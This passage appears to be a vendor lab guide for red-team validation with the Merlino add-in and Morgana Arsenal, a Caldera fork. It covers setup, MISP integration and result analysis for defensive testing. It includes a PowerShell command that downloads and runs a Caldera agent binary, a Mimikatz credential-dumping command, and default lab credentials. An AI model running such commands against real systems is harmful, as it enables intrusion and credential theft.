# Merlino User Guide -- Lab 03 -- Red Team Testing with Morgana Arsenal

**Product:** Merlino v1.5.0  
**Publisher:** X3M.AI Ltd  
**Date:** March 2026  
**Audience:** Red Team operators, SOC analysts, detection engineers, and security architects  
**Support:** [https://github.com/x3m-ai/Camelot](https://github.com/x3m-ai/Camelot)

---

## Prerequisites

This laboratory **requires completion of Lab 01 and Lab 02**.

- In **Lab 01** you built a complete threat profile based on six APT groups, generated the Catalogue, ran Update Core and Smart View, and analyzed the Main Coverage heatmap.
- In **Lab 02** you imported 41 Microsoft Sentinel detection rules, measured SIEM coverage against your threat profile, and identified techniques that are NOT covered by your detection rules.

**Lab 03 closes the loop.** You will now take the techniques from your threat profile and test them against a real target machine using Morgana Arsenal -- a purpose-built fork of MITRE Caldera designed to work seamlessly with Merlino. After running operations, you will synchronize the results back into Merlino to see exactly which techniques were tested, which succeeded, and which failed -- giving you a complete, measurable picture of your security posture: intelligence (Lab 01) > detection (Lab 02) > validation (Lab 03).

If you have not completed Lab 01 and Lab 02, go back and complete them first. This lab builds directly on the workbook produced in those labs.

---

## Table of Contents

1. [Introduction -- Why Red Team Validation Matters](#1-introduction----why-red-team-validation-matters)
2. [Step 1 -- Prepare the Tests Sheet](#2-step-1----prepare-the-tests-sheet)
3. [Step 2 -- Synchronize Catalogue to Tests](#3-step-2----synchronize-catalogue-to-tests)
4. [Step 3 -- Install Morgana Arsenal](#4-step-3----install-morgana-arsenal)
5. [Step 4 -- Configure Merlino to Connect to Morgana Arsenal](#5-step-4----configure-merlino-to-connect-to-morgana-arsenal)
6. [Step 5 -- Configure MISP Connection](#6-step-5----configure-misp-connection)
7. [Step 6 -- Deploy a Caldera Agent on the Target Machine](#7-step-6----deploy-a-caldera-agent-on-the-target-machine)
8. [Step 7 -- Synchronize Morgana Arsenal (First Sync)](#8-step-7----synchronize-morgana-arsenal-first-sync)
9. [Step 8 -- Run Operations in Morgana Arsenal](#9-step-8----run-operations-in-morgana-arsenal)
10. [Step 9 -- Synchronize Back to Merlino (Post-Execution)](#10-step-9----synchronize-back-to-merlino-post-execution)
11. [Step 10 -- Understanding the Tests Table After Synchronization](#11-step-10----understanding-the-tests-table-after-synchronization)
12. [Step 11 -- Push Intelligence to MISP](#12-step-11----push-intelligence-to-misp)
13. [Step 12 -- Import IOC Data from MISP](#13-step-12----import-ioc-data-from-misp)
14. [Step 13 -- Visualize IOC Clusters](#14-step-13----visualize-ioc-clusters)
15. [Step 14 -- Explore the Agents Dashboard](#15-step-14----explore-the-agents-dashboard)
16. [The Complete Security Validation Loop](#16-the-complete-security-validation-loop)
17. [Summary and Next Steps](#17-summary-and-next-steps)

---

## 1. Introduction -- Why Red Team Validation Matters

In Lab 02, you measured how much of your threat landscape is covered by Microsoft Sentinel detection rules. You found gaps -- techniques that your adversaries use but your SIEM does not detect. That measurement is essential, but it answers only one question: *"Do we have a rule for this technique?"*

It does NOT answer the more important question:

**"If an adversary executes this technique against our infrastructure, will we actually detect it, stop it, or even notice it?"**

The difference between these two questions is the difference between theoretical coverage and validated coverage. A Sentinel rule may exist for T1003 (OS Credential Dumping), but does it fire when someone actually runs Mimikatz on your domain controller? Does your EDR block the execution? Does your SOC team receive the alert, triage it, and respond within your SLA? The only way to answer these questions is to test.

### What You Will Do in This Lab

In this laboratory, you will:

- **Prepare Merlino's Tests table** with the techniques from your Catalogue (the same ones analyzed in Lab 01 and Lab 02)
- **Install Morgana Arsenal** -- a MITRE Caldera fork optimized for Merlino integration -- on a virtual machine
- **Deploy a Caldera agent** on a Windows target machine to serve as the test endpoint
- **Synchronize Merlino with Morgana Arsenal** to push your adversaries and operations to the Red Team platform
- **Execute attack operations** against the target machine using real MITRE ATT&CK techniques and abilities
- **Synchronize results back into Merlino** to see which abilities succeeded, failed, or were blocked
- **Push intelligence to MISP** using the IOC taskpane to enrich your threat intelligence platform
- **Import IOC data back from MISP** and visualize relationships using the IOC Cluster Graph

This is the final piece of the puzzle: after this lab, your Merlino workbook will contain the complete cycle -- **threat intelligence, detection coverage, and Red Team validation results** -- all in a single, measurable, auditable document.

### Architecture Overview

```
+------------------+       +---------------------+       +------------------+
|                  |       |                     |       |                  |
|     MERLINO      | <---> |   MORGANA ARSENAL   | <---> |  TARGET MACHINE  |
|   (Excel Add-in) |       |   (Caldera Server)  |       |  (Windows Agent) |
|                  |       |                     |       |                  |
+--------+---------+       +----------+----------+       +------------------+
         |                            |
         |                            |
+--------v---------+       +----------v----------+
|                  |       |                     |
|      MISP        |       |   MITRE ATT&CK     |
| (Threat Intel)   |       |   Abilities DB      |
|                  |       |                     |
+------------------+       +---------------------+
```

Merlino sends adversary definitions and operations to Morgana Arsenal. Morgana Arsenal deploys abilities against the target machine through the installed agent. Results flow back to Merlino through synchronization. Merlino can then push the intelligence to MISP for broader threat intelligence sharing and correlation.

---

## 2. Step 1 -- Prepare the Tests Sheet

Before synchronizing your Catalogue with the Tests table, you need to make sure the Tests sheet is clean. If there are leftover rows from a previous session or earlier experimentation, they must be removed -- but the table header must remain intact.

### Navigate to the Tests Sheet

1. In your Merlino workbook, click on the **Tests** sheet tab at the bottom of the Excel window.
2. Examine the sheet. If you see data rows below the header row, you need to clear them.


*Figure 300: The Tests sheet. If data rows exist below the header, select and delete them. Never delete the header row.*

### Clear Existing Data Rows

If the Tests sheet contains data:

1. Click on the **first data row** (the row immediately below the header).
2. Hold **Shift** and click the **last data row** to select all data rows.
3. Right-click and select **Delete Row** (or press **Ctrl+Minus**).
4. **Do NOT delete the header row.** The header row contains the column names that Merlino relies on: Pick, CrossPick, TCodes, Name, Description, Operation, Adversary, State, Agents, Group, Status, Output, Command, and others.

> **WARNING:** If you accidentally delete the header row, the table structure will break. In that case, reload the template (Templates taskpane) and re-run the import process from Lab 01.

After clearing, the Tests sheet should show only the header row with no data below it.

---

## 3. Step 2 -- Synchronize Catalogue to Tests

Now you will transfer all the entries from your Catalogue into the Tests table. This creates one test record for each Catalogue entry, ready to be pushed to Morgana Arsenal.

### Open the Tests & Operations Taskpane

1. Click the **Tests & Operations** button in the Merlino ribbon (Operations group).
2. The taskpane opens with two main buttons at the top:
   - **Synchronize Catalogue** -- transfers data from the Catalogue table to the Tests table
   - **Synchronize Morgana** -- connects to Morgana Arsenal to push/pull operations data

### Click Synchronize Catalogue

1. Click the **Synchronize Catalogue** button.
2. Merlino reads all rows from the Catalogue table and compares them against the Tests table.
3. Records that already exist in Tests (matched by the **Name** column) are skipped.
4. New records are inserted into the Tests table with the following mapping:
   - Catalogue **Name** --> Tests **Operation** and **Adversary**
   - Catalogue **TCodes** --> Tests **TCodes**
   - Catalogue **Description** --> Tests **Description**


*Figure 301: After clicking Synchronize Catalogue, the Tests table is populated with all Catalogue entries. Each row represents a potential Red Team operation.*

5. A notification appears confirming how many new records were inserted and how many were skipped (if duplicates existed).

At this point, your Tests table contains all the entries from your Catalogue -- the same techniques and rules you analyzed in Lab 01 and Lab 02. These are now ready to be sent to Morgana Arsenal for actual Red Team execution.

---

## 4. Step 3 -- Install Morgana Arsenal

Morgana Arsenal is a purpose-built fork of [MITRE Caldera](https://github.com/mitre/caldera) that includes a dedicated API endpoint for bidirectional synchronization with Merlino. It also comes pre-configured with MISP integration for threat intelligence sharing.

### Requirements

- An Ubuntu machine (22.04 LTS or later) -- can be a VM, bare-metal, or cloud instance
- Minimum 4 GB RAM, 2 CPU cores (8 GB RAM recommended if running MISP on the same machine)
- Internet access for downloading packages

### Installation

1. Visit the official Morgana Arsenal repository: **[https://github.com/x3m-ai/morgana-arsenal](https://github.com/x3m-ai/morgana-arsenal)**
2. Follow the installation instructions in the README. The installation is straightforward -- it uses a single bash script that handles all dependencies:

```bash
git clone https://github.com/x3m-ai/morgana-arsenal.git
cd morgana-arsenal
chmod +x install.sh
./install.sh
```

3. The script installs Python, Caldera, the Morgana Arsenal plugin, and optionally MISP. Follow the on-screen prompts.

> **Note:** All detailed instructions, requirements, and troubleshooting are available in the [Morgana Arsenal GitHub repository](https://github.com/x3m-ai/morgana-arsenal). We recommend reading the full README before starting the installation.

### Network Architecture -- nginx Reverse Proxy

Morgana Arsenal uses **nginx** as a reverse proxy in front of Caldera. Caldera itself listens on `localhost:8888` (internal only), but nginx exposes it on port **80** externally. This means:

- **From inside the VM** (e.g., via SSH): Caldera is available at `http://localhost:8888`
- **From outside the VM** (e.g., from your Windows machine or from Merlino): use `http://<VM-IP>` (port 80, no port number needed)
- **MISP** listens on port **8443** both internally and externally: `https://<VM-IP>:8443`

You never need to open or reference port 8888 externally -- nginx handles the routing.

### SSL Certificates -- Required for External Access

If you run Morgana Arsenal on a **local VM** on the same machine where Excel is installed (e.g., VMware on your laptop), HTTP connections over `http://<VM-IP>` will work without issues.

However, if you plan to access Morgana Arsenal from **outside the local machine** -- for example, from a cloud-hosted VM, a remote server, or any network segment external to your laptop -- you **must** configure an SSL certificate on nginx and use HTTPS.

**Why?** Microsoft Excel is an extremely secure, air-gapped sandbox. The Office.js runtime does not permit any uncertified external HTTP communication. If Morgana Arsenal is not on the same local network or machine, Excel will silently block all API calls unless the connection is encrypted with a valid certificate. This is a non-negotiable security requirement enforced by the Office platform.

**For lab environments** on a remote network, a self-signed certificate assigned to nginx is the minimum requirement:

```bash
# Generate a self-signed certificate (valid for 365 days)
sudo openssl req -x509 -nodes -days 365 -newkey rsa:2048 \
  -keyout /etc/nginx/ssl/morgana.key \
  -out /etc/nginx/ssl/morgana.crt \
  -subj "/CN=morgana-arsenal"
```

After generating the certificate, configure nginx to use it and restart the service. You will also need to import the certificate into the Windows Trusted Root Certificate Store on the machine running Excel.

**For production environments**, we strongly recommend using a proper certificate from a trusted Certificate Authority. Several free and low-cost options are available:

| Provider | Cost | Notes |
|---|---|---|
| **[Let's Encrypt](https://letsencrypt.org)** | Free | Automated via Certbot. Requires a public domain name. Certificates renew every 90 days automatically. The industry standard for free TLS. |
| **[ZeroSSL](https://zerossl.com)** | Free tier available | Up to 3 free 90-day certificates. REST API available for automation. Good alternative if Let's Encrypt is blocked. |
| **[Cloudflare Origin CA](https://developers.cloudflare.com/ssl/origin-configuration/origin-ca/)** | Free (with Cloudflare) | If your domain is on Cloudflare, Origin CA certificates are free and valid for up to 15 years. Only trusted by Cloudflare's edge. |
| **[DigiCert](https://www.digicert.com)** | Paid | Enterprise-grade certificates with extended validation. Recommended for organizations that require compliance-level trust chains. |

> **Recommendation:** For most lab and small-team deployments, **Let's Encrypt** with Certbot is the best option -- fully automated, widely trusted, and zero cost. For enterprise deployments behind a corporate domain, coordinate with your IT/PKI team.

### CORS -- Already Configured by the Installer

Merlino runs inside the Office.js sandbox, which means every API call from Excel to Morgana Arsenal is a **cross-origin request**. The browser engine embedded in Office enforces the same-origin policy strictly: if the server does not return the correct CORS headers, Excel will silently reject the response -- even if the request was technically successful on the server side.

**You do not need to configure CORS manually.** The Morgana Arsenal `install.sh` script configures nginx with all the required CORS headers automatically as part of the installation process. The information below is provided for reference and troubleshooting only.

The relevant nginx directives configured by the installer are:

```nginx
# /etc/nginx/sites-available/morgana-arsenal (excerpt)
location / {
    proxy_pass http://127.0.0.1:8888;

    # CORS headers -- required for Office.js / Merlino
    add_header Access-Control-Allow-Origin  "*" always;
    add_header Access-Control-Allow-Methods "GET, POST, PUT, PATCH, DELETE, OPTIONS" always;
    add_header Access-Control-Allow-Headers "KEY, Content-Type, Authorization" always;

    # Preflight requests (OPTIONS)
    if ($request_method = OPTIONS) {
        add_header Access-Control-Allow-Origin  "*" always;
        add_header Access-Control-Allow-Methods "GET, POST, PUT, PATCH, DELETE, OPTIONS" always;
        add_header Access-Control-Allow-Headers "KEY, Content-Type, Authorization" always;
        add_header Content-Length 0;
        return 204;
    }
}
```

Key points:

- **`Access-Control-Allow-Origin "*"`** -- allows requests from any origin. In a production environment you can restrict this to the specific Office add-in origin (e.g., `https://merlino-addin.pages.dev`).
- **`Access-Control-Allow-Headers`** -- must include `KEY` because Caldera uses a custom `KEY` header for API authentication. If this header is missing from the CORS allow-list, every authenticated request will be blocked.
- **Preflight (OPTIONS)** -- Office.js sends an OPTIONS preflight before every non-simple request. The server must reply with `204 No Content` and the correct CORS headers, otherwise the actual request is never sent.

> **Troubleshooting:** If Merlino shows connection errors but the Morgana Arsenal web UI works fine in a browser, CORS is almost always the cause. Open the **Logs** taskpane in Merlino and look for messages containing "CORS" or "blocked by CORS policy". Verify that the nginx configuration includes all three `add_header` directives shown above and that `KEY` is listed in `Access-Control-Allow-Headers`.
>
> For detailed nginx and CORS configuration documentation, see the [Morgana Arsenal GitHub repository](https://github.com/x3m-ai/morgana-arsenal).

### Morgana Arsenal Launcher Page

After the installation completes, the installer automatically opens the **Morgana Arsenal Launcher** -- a local HTML page that provides quick access to all services and status information. If it does not open automatically, you can access it manually from the VM desktop or terminal:

```
file:///home/morgana/morgana-arsenal/static/launcher.html
```

The launcher page shows the status of all services (Caldera, MISP, nginx), provides direct links to the web interfaces, and displays the VM's IP address for easy configuration in Merlino.


*Figure 302: The Morgana Arsenal Launcher page opens after installation, providing quick access to Caldera, MISP, and service status information.*

### Default Credentials

After the installation completes, use the following credentials:

| Service | Username | Password | Access |
|---|---|---|---|
| **Morgana Arsenal (Ubuntu + Caldera)** | `morgana` | `morgana` | SSH, VM console, `http://<VM-IP>` |
| **MISP** | `admin@misp.test` | `admin` | `https://<VM-IP>:8443` |

> **IMPORTANT:** Change all default passwords immediately in production environments. These credentials are intended for lab use only.

### Find the VM IP Address

After logging into the VM (username: `morgana`, password: `morgana`), run:

```bash
ip addr show
```

Note the IP address (e.g., `192.168.124.133`). You will need this for configuring Merlino and accessing the MISP web interface.

---

## 5. Step 4 -- Configure Merlino to Connect to Morgana Arsenal

Now that Morgana Arsenal is running, you need to tell Merlino where to find it.

### Open the Settings Taskpane

1. Click the **Settings** button in the Merlino ribbon (Help group).
2. Scroll to the **Caldera / Morgana Arsenal** section.

### Enter the Connection Details

1. In the **Server URL** field, enter the Morgana Arsenal URL: `http://<VM-IP>`
   - Replace `<VM-IP>` with the actual IP address of your Morgana Arsenal VM (e.g., `http://192.168.124.133`)
2. Click **Save**.
3. Click **Test Connection**.
4. If the connection is successful, the status indicator turns **green** with a confirmation message.


*Figure 303: Morgana Arsenal connection configured in the Settings taskpane. The green indicator confirms a successful connection.*

> **Troubleshooting:** If the test fails:
> - Verify the VM is running and reachable (`ping <VM-IP>` from your Windows machine).
> - Check that port 80 is not blocked by a firewall (nginx proxies to Caldera on port 8888 internally).
> - Open the **Logs** taskpane in Merlino to read the detailed error message.

---

## 6. Step 5 -- Configure MISP Connection

MISP (Malware Information Sharing Platform) is included in the Morgana Arsenal VM. Configuring it now allows you to push threat intelligence from Merlino to MISP and pull IOC data back later in this lab.

### Create a MISP API Key

1. Open a browser and navigate to `https://<VM-IP>:8443`.
2. Accept the self-signed certificate warning.
3. Log in with the default MISP credentials: **admin@misp.test** / **admin**.
4. Once logged in, go to **Administration** in the top menu and click **List Auth Keys**.
5. If an existing key is present, delete it (click the trash icon).
6. Click **Add authentication key** (or **New authentication key**).
7. Leave the defaults and click **Submit**.
8. **Copy the generated API key immediately** -- it will not be shown again.


*Figure 304: MISP Auth Keys management. Delete old keys and create a new one for Merlino integration.*

### Enter MISP Details in Merlino Settings

1. Back in the Merlino **Settings** taskpane, scroll to the **MISP** section.
2. In the **MISP URL** field, enter: `https://<VM-IP>:8443`
   - This is the same IP as Morgana Arsenal, but on port **8443** for MISP.
3. In the **API Key** field, paste the MISP authentication key you just created.
4. Click **Save**.
5. Click **Test Connection** for MISP.
6. If successful, the status indicator turns **green**.


*Figure 305: Both Morgana Arsenal and MISP connections configured and verified (green status indicators).*

> **Note:** If the MISP connection test fails with a certificate error, this is expected for self-signed certificates. Merlino handles self-signed certificates, but some corporate proxy configurations may interfere. Check the Logs taskpane for details.

---

## 7. Step 6 -- Deploy a Caldera Agent on the Target Machine

Before Morgana Arsenal can execute any operations, it needs an **agent** running on the target machine. The agent is a lightweight process that communicates with the Caldera server, receives instructions, executes abilities (attack techniques), and reports results back.

### Prepare a Target Machine

For this lab, you need a **Windows virtual machine** to serve as the attack target. This can be:

- A Windows 10/11 VM in VMware or VirtualBox
- A Windows Server VM
- Any Windows machine on the same network as the Morgana Arsenal VM

> **WARNING:** Only deploy agents on machines you own and control. Never deploy agents on production systems without explicit authorization. This lab should be conducted in an isolated lab environment.

### Deploy the Agent from Morgana Arsenal

1. Open the Morgana Arsenal web interface in your browser: `http://<VM-IP>`.
2. Log in with the Caldera credentials (default: `morgana` / `morgana`).
3. Navigate to **Agents** in the left menu.
4. Click **Deploy an Agent**.
5. Select the **Manx** agent (or **Sandcat** -- Manx is recommended for Windows).
6. Click the **Windows** icon to generate the deployment command.
7. A `curl` command is displayed similar to:

```powershell
curl -s -X POST http://192.168.124.133/file/download -d "{\"platform\":\"windows\",\"file\":\"sandcat.go-windows\"}" -o sandcat.exe; .\sandcat.exe -server http://192.168.124.133 -group red
```

> **NOTE:** On some Windows versions, you may need to split this into two separate commands:
> ```powershell
> # Command 1: Download the agent
> curl -s -X POST http://192.168.124.133/file/download -d "{\"platform\":\"windows\",\"file\":\"sandcat.go-windows\"}" -o sandcat.exe
> 
> # Command 2: Run the agent
> .\sandcat.exe -server http://192.168.124.133 -group red
> ```
> Run each command separately if the combined command fails.

8. Open **PowerShell as Administrator** on the target Windows machine.
9. Navigate to a working folder (e.g., `cd C:\Temp`).
10. Paste and execute the command(s).
11. The agent starts and connects to Morgana Arsenal.


*Figure 306: Deploying a Caldera agent from Morgana Arsenal. Select the agent type and platform, then copy the deployment command to run on the target machine.*

### Execute the Agent on the Windows Target

The following screenshot shows the agent deployment script running on the Windows target machine. The PowerShell window displays the curl download followed by the agent execution -- once started, the agent connects back to Morgana Arsenal and begins listening for instructions.


*Figure 313: The Morgana Arsenal agent script running on the Windows target machine. The agent binary is downloaded and executed, establishing a connection back to the Caldera server.*

### Verify the Agent is Connected

1. Back in the Morgana Arsenal web interface, go to **Agents**.
2. You should see the newly deployed agent listed with its hostname, platform (Windows), and status (alive).
3. The agent's **group** should be `red` (the default group for Red Team operations).


*Figure 307: The Windows agent is connected and alive. Morgana Arsenal can now execute operations against this machine.*

> **About Groups:** The agent group (`red` by default) determines which operations target which agents. Merlino's Tests table includes a **Group** column that maps to Caldera's group concept. All agents in the `red` group will receive operations directed at that group.

---

## 8. Step 7 -- Synchronize Morgana Arsenal (First Sync)

Now that you have:
- A populated Tests table (from Step 2)
- Morgana Arsenal running and connected (from Steps 3-4)
- An agent deployed on the target machine (from Step 6)

You are ready to push the test definitions from Merlino to Morgana Arsenal.

### Open the Tests & Operations Taskpane

1. Click the **Tests & Operations** button in the Merlino ribbon.
2. You see the two synchronization buttons and the Operations Intelligence Dashboard below them.

### Click Synchronize Morgana

1. Click the **Synchronize Morgana** button.
2. Merlino performs several steps automatically:
   - **Checks for agents** -- verifies at least one agent exists in Morgana Arsenal. If no agents are found, the sync is aborted with a message: *"No agents found in Morgana Arsenal. Please deploy at least one agent before synchronizing."*
   - **Reads the Tests table** -- collects all rows from the Tests sheet.
   - **Sends data to Morgana Arsenal** via the dedicated API endpoint (`/api/v2/merlino/synchronize`).
   - **Creates adversaries and operations** in Caldera for each entry.
   - **Receives updated data** back from Morgana Arsenal, including operation IDs, adversary IDs, and current state.
   - **Updates the Tests table** with the response data.
   - **Updates the Operations Intelligence Dashboard** with real-time metrics.

3. A status message appears: *"Sync completed! X operations, Y abilities, Z agents"*.


*Figure 308: After clicking Synchronize Morgana, the status shows the number of operations created and abilities available. The Operations Intelligence Dashboard below updates with real-time metrics.*

### What Happened in Morgana Arsenal

After synchronization, go to the Morgana Arsenal web interface and check:

- **Adversaries** (left menu): You will see new adversary profiles, each named after a Catalogue entry. These adversaries contain the ATT&CK techniques mapped in the TCodes column.


*Figure 314: The Adversaries page in Morgana Arsenal after synchronization. Each adversary profile corresponds to a Catalogue entry and contains the ATT&CK techniques from the TCodes column.*

- **Operations** (left menu): You will see corresponding operations, ready to be executed. Each operation is linked to its adversary and targeted at the agent group.


*Figure 315: The Operations page in Morgana Arsenal after synchronization. Each operation is linked to an adversary profile and targeted at the agent group, ready to be executed.*

> **Key Concept:** The **Name** column in Merlino's Catalogue is the unique identifier that links entries across both systems. When you modify an adversary name in Morgana Arsenal, Merlino will track it through the operation ID. The names in Merlino's Catalogue, Tests, and Morgana Arsenal's Adversaries and Operations all correspond.

---

## 9. Step 8 -- Run Operations in Morgana Arsenal

Now comes the actual Red Team testing. You will execute operations against the target machine.

### Navigate to Operations in Morgana Arsenal

1. In the Morgana Arsenal web interface, click **Operations** in the left menu.
2. You will see the list of operations created during synchronization.
3. Select the operation you want to execute.

### Prepare and Run an Operation

1. Click on the operation name to open it.
2. Review the details:
   - **Adversary:** The adversary profile linked to this operation (contains the ATT&CK abilities).
   - **Group:** The agent group that will be targeted (default: `red`).
3. Scroll down to the bottom of the operation page.
4. Click the **Cleanup** button to start the operation. Despite the name, this is the button that launches the execution.
5. When you click Cleanup, Caldera **creates a copy of the operation** with a timestamp appended to the name (e.g., `APT28 - 2026-03-09 14:32:17`). The original operation remains untouched in the Operations list. This behavior is intentional and valuable: it allows you to keep the original operation definition as a reusable template for future customizations, while each execution is tracked as a separate, timestamped copy.


*Figure 316: After clicking Cleanup, Caldera creates a timestamped copy of the operation. The original operation remains available for future use and customization.*

6. The cloned operation starts running immediately. Caldera begins deploying abilities against all agents in the target group. Each ability corresponds to an ATT&CK technique (e.g., T1003.001 -- LSASS Memory is executed by running a credential dumping tool on the target's LSASS process).


*Figure 317: An operation running in Morgana Arsenal. The agent executes abilities (attack techniques) against the target machine. Each ability shows its execution status in real-time.*

### Monitor Execution

- The operation view shows abilities being executed in real-time.
- Each ability shows a **status**:
  - **Green (0):** Ability executed successfully -- the technique was performed on the target.
  - **Red (-1):** Ability failed or was blocked -- the target's defenses prevented execution.
  - **Blue (1):** Ability is currently running.
- You can click on individual abilities to see command output, execution time, and detailed results.

> **What a Successful Execution Means:** A successfully executed ability (status 0) means the adversary technique was carried out on the target machine. This is valuable information regardless of whether it was "good" or "bad":
> - If your Sentinel rule **did not fire**, you have a confirmed detection gap.
> - If your Sentinel rule **did fire**, the detection is validated.
> - If your EDR **blocked** the ability (status -1), your endpoint protection is working for that technique.

Run as many operations as needed. You can execute multiple operations sequentially or in parallel (depending on your agent and server capacity).

---

## 10. Step 9 -- Synchronize Back to Merlino (Post-Execution)

After running one or more operations, you need to pull the results back into Merlino.

### Return to Merlino

1. Go back to Excel and the Merlino workbook.
2. Open the **Tests & Operations** taskpane.

### Click Synchronize Morgana Again

1. Click the **Synchronize Morgana** button.
2. This time, the synchronization pulls execution results from Morgana Arsenal:
   - **Ability execution status** (success, failed, or running) for each technique.
   - **Agent information** (which agents executed which abilities).
   - **Command output** and execution details.
3. The Tests table is updated with the latest data from Morgana Arsenal.
4. The **Operations Intelligence Dashboard** refreshes with updated metrics:
   - **Success Rate** -- percentage of abilities that executed successfully.
   - **Error Rate** -- percentage of abilities that failed or were blocked.
   - **Total Abilities** -- total number of individual abilities executed across all operations.
   - **Agent Count** -- number of active agents involved.

The dashboard provides five analytical views:
- **Graph** -- Force-directed graph showing relationships between operations, techniques, and agents.
- **Success** -- Detailed breakdown of successful vs. failed abilities.
- **Health** -- Agent health and connectivity status.
- **Errors** -- Error analysis and troubleshooting information.
- **Metrics** -- Aggregated KPIs and performance metrics.


*Figure 309: After the second synchronization, the Tests table shows execution results and the Operations Intelligence Dashboard displays real-time analytics including success rates, agent activity, and technique coverage.*

---

## 11. Step 10 -- Understanding the Tests Table After Synchronization

After synchronizing with Morgana Arsenal, the Tests table will contain **more rows than you originally had in the Catalogue**. This is expected and correct.

### Why More Rows?

Each entry in your Catalogue maps to a single ATT&CK technique (or a small set of techniques). But when Caldera executes an operation, each technique is implemented by one or more **abilities**. An ability is a specific, concrete action that implements the technique on a particular platform.

For example:

| Catalogue Entry | Technique | Caldera Abilities |
|---|---|---|
| LSASS Credential Dumping | T1003.001 | Dump LSASS with Mimikatz, Dump LSASS with procdump, Dump LSASS with comsvcs.dll, Dump LSASS via direct memory access |
| PowerShell Execution | T1059.001 | Download cradle via PowerShell, Encoded PowerShell command, PowerShell without logging, PowerShell bypass execution policy |
| Disable Security Tools | T1562.001 | Disable Windows Defender real-time, Disable Windows Firewall, Stop security service, Modify registry security settings |

A single Catalogue entry for T1003 may produce 4-8 rows in the Tests table -- one for each ability that Morgana Arsenal used to test that technique. This is the expected behavior and provides granular visibility into which specific implementations of a technique succeeded or failed.

### Key Columns in the Tests Table

| Column | Description | Example Values |
|---|---|---|
| **Pick** | Boolean flag for filtering | TRUE / FALSE |
| **CrossPick** | Cross-table coverage percentage | 0-100 |
| **TCodes** | ATT&CK technique codes | T1003.001, T1059.001 |
| **Name** | Catalogue entry name (operation) | LSASS Credential Dumping |
| **Operation** | Caldera operation name | LSASS Credential Dumping |
| **Adversary** | Caldera adversary profile name | LSASS Credential Dumping |
| **State** | Operation state | running, finished, cleanup |
| **Status** | Ability execution status | 0 (success), -1 (failed), 1 (running) |
| **Output** | Command output from the agent | Base64-encoded execution output |
| **Command** | The command that was executed | mimikatz.exe sekurlsa::logonpasswords |
| **Agents** | Number of participating agents | 1, 2, 3... |
| **Group** | Agent group | red |

> **For more information** about MITRE Caldera, abilities, adversaries, and operations, visit the official Caldera repository: [https://github.com/mitre/caldera](https://github.com/mitre/caldera)
>
> For video tutorials and demonstrations, visit the official Caldera YouTube channel: [https://www.youtube.com/@MITRECalderaOfficial](https://www.youtube.com/@MITRECalderaOfficial)

### Operations Intelligence Dashboard -- Analytical Views

Beyond the raw data in the Tests table, the **Operations Intelligence Dashboard** in the Tests & Operations taskpane provides five powerful analytical views. Each view is accessible via a tab at the top of the dashboard section. Together, they give you a complete operational picture of your Red Team campaign.

#### OPS Graph

The OPS Graph is an **interactive force-directed graph** that visualizes the relationships between your operations, tactics, techniques, and procedures (TTPs). Nodes represent operations, ATT&CK tactics, and individual techniques. Edges show which techniques belong to which tactics and which operations tested them.

You can **drag** nodes to rearrange the layout, **hover** over any node to highlight its connections, and **click** on a node to isolate its neighborhood. The graph automatically clusters related elements together, making it easy to spot which tactical areas have the most test coverage and which are underrepresented.

This view is particularly useful for briefings and reports -- it provides an immediate, visual answer to the question: *"What did we test and how does it map to the ATT&CK framework?"*


*Figure 318: The OPS Graph -- an interactive force-directed visualization showing the relationships between operations, ATT&CK tactics, and techniques. Drag, hover, and click nodes to explore the data.*

#### Ability Success Rate Analysis

The Ability Success Rate Analysis view breaks down the execution results across all operations. It shows the **percentage of abilities that succeeded (status 0), failed (status -1), and are still running (status 1)** -- both as an aggregate summary and per-operation breakdown.

This view answers the critical question: *"Of everything we tested, how much actually worked?"* A high success rate (many green/status 0) means the adversary techniques were executed successfully on the target -- which is valuable for identifying detection gaps. A high failure rate (many red/status -1) indicates that your endpoint defenses are blocking those specific technique implementations.

Use this view to prioritize follow-up actions: techniques that succeeded without triggering a Sentinel alert are your highest-priority detection gaps.


*Figure 319: The Ability Success Rate Analysis view. Green bars represent successful ability executions, red bars represent blocked or failed abilities. Use this data to identify which techniques bypassed your defenses.*

#### Operations Health Matrix

The Operations Health Matrix provides a comprehensive overview of **agent health, connectivity, and operation state** across your entire Red Team campaign. It shows which agents are alive, which have gone offline, how long each agent has been connected, and the current state of every operation (running, finished, or cleanup).

This view is essential for **operational awareness during active testing**. If an agent disconnects mid-operation, the Health Matrix highlights it immediately so you can troubleshoot (e.g., the target machine rebooted, the agent process was killed by an EDR, or a network issue interrupted communication). It also tracks operation completion status so you know which operations have finished and which are still in progress.


*Figure 320: The Operations Health Matrix. Each row represents an agent with its hostname, platform, group, and connectivity status. Operation states are shown alongside agent health indicators.*

#### Error Analytics and Troubleshooting

The Error Analytics view aggregates all **errors, failures, and anomalies** from your operations into a single diagnostic interface. It categorizes errors by type (agent communication failures, ability execution errors, timeout issues, permission denied) and provides the detailed error messages and command output for each failed ability.

This view is your **first stop when something goes wrong**. Instead of manually reviewing each failed ability across multiple operations, the Error Analytics view consolidates everything and highlights patterns. For example, if multiple abilities fail with "Access Denied", it likely means the agent does not have sufficient privileges -- you may need to run the agent as Administrator. If abilities time out consistently, the agent may be under heavy load or the network connection to Morgana Arsenal is unstable.


*Figure 321: The Error Analytics and Troubleshooting view. Errors are categorized by type with detailed messages and command output. Use this view to diagnose and resolve operational issues.*

#### Real-Time Operations Metrics

The Real-Time Operations Metrics view displays **live KPIs and aggregated statistics** for your entire Red Team campaign. Key metrics include:

- **Total Operations** -- number of operations executed
- **Total Abilities** -- total number of individual ability executions across all operations
- **Overall Success Rate** -- percentage of abilities that completed successfully
- **Average Execution Time** -- mean time per ability execution
- **Agent Utilization** -- how many agents are actively participating vs. idle
- **Technique Coverage** -- number of unique ATT&CK techniques tested vs. total in your threat profile

This view provides the **executive summary** of your Red Team engagement. The metrics are updated in real-time as operations run and are refreshed each time you synchronize with Morgana Arsenal. Use these numbers for reporting to management, compliance documentation, and tracking improvement over time as you repeat the validation cycle.


*Figure 322: Real-Time Operations Metrics displaying live KPIs including total operations, abilities executed, success rates, average execution time, and technique coverage against your threat profile.*

---

## 12. Step 11 -- Push Intelligence to MISP

Now that you have Red Team execution data in your Merlino workbook, you can push this intelligence to MISP. This creates events in your MISP instance that correlate your Catalogue data (threat groups, techniques, Sentinel rules) with real execution results -- enabling powerful cross-referencing and threat intelligence sharing.

### Open the IOC Taskpane

1. Click the **IOC** button in the Merlino ribbon (Operations group).
2. The IOC taskpane opens with several action buttons.

### Push Catalogue Data to MISP

1. Click the **Catalogue to MISP** button.
2. Merlino reads all rows from the Catalogue table and creates one MISP event for each entry.
3. Each MISP event includes:
